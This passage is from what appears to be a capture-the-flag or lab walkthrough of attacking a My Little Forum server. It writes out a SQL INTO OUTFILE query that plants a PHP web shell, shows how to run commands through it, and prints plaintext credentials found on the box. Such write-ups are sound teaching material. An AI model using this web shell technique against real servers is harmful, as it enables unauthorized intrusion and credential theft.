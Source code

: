 Before making a query, we need to locate a directory where we have permission to create a file. If we look back at the forum, we find that the webserver is running on **My Little Forum**. Let's take a look at the template by checking the [source code](https://github.com/My-Little-Forum/mylittleforum) on GitHub! As we can see, there's a repository named `templates_c` that we can access.

With that information, we go into the newly created database and navigate to the *SQL* tab. In the *SQL* tab, we'll execute the following query to upload a file that will run a shell command:

```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

Next, we go at the file we just created using the following URL:

```
https://192.168.144.3/forum/templates_c/backdoor.php
```
However, all we see is a blank page. To get a result, we should append `?cmd={command}` to the URL so the script will execute the command we want.

![alt text](images/url.png)

We can now execute shell commands as the user `www-data`. For the remainder of this part, we'll use **BurpSuite** to help visualize the responses.\
After some exploration, we discover a repository named *LOOKATME* in `/home`, that contains a file called *password*. Displaying the content of this file reveals credentials for *lmezard* with the password: `G!@M6f4Eatau{sF"`. 

![alt text](images/burpsuite.png)

Let's try using those credentials across the various available services!

## Exploiting lmezard

Firstly, if we attempt to log in to SSH, we see that it doesn't work. However, when we try logging in to FTP, it worked!

![alt text](images/ftp.png)
